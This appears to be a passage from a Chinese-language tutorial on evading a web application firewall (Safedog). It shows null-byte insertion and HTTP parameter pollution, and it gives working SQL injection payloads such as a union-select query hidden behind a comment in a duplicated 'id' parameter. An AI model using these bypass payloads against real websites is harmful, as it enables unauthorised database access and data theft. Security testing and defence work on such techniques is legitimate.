 有的过滤会碰到空字节会中止过滤

> 
?id=1 a%00nd 1=2……
?id=1 %00 and 1=2…… 


---


#### http 参数污染

利用参数污染来导致网站和安全狗接受数据的不一致性，实现绕过的操作。当get方式进行传参时，经过&amp;符号传入多个参数，WAF可能只检测第一个参数的值，然后台却检测最后一个传入的值，此时能够绕过WAF的防护

下图即每种服务器获得到的参数

?id=1/**&amp;id=-1' union select 1,database(),3 #*/ 

安全狗收到的：  1/**&amp;id=-1' union select 1,database(),3 #*/        

被注释，没法执行，安全狗会忽略

网站收到的：  -1' union select 1,database(),3 #*/      

被带入执行
